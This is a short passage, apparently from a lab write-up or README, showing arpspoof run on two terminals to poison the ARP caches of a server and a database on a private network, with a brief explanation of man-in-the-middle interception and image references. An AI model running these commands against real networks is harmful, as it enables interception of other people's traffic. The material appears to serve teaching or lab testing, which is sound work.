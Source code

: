  * Activating arpspoof on two separate terminals:
   ```
   arpspoof -i eth0 -t 192.168.0.100 0.0.0.0
   arpspoof -i eth0 -t 192.168.0.10 0.0.0.0
   ```
    Its primary function involves manipulating Address Resolution Protocol (ARP) messages, allowing an attacker to intercept and redirect network traffic between two hosts. Here we are intercepting both the server and the database.
  
  ![](img/server-sniff.jpeg)
  * arpspoof on the Server
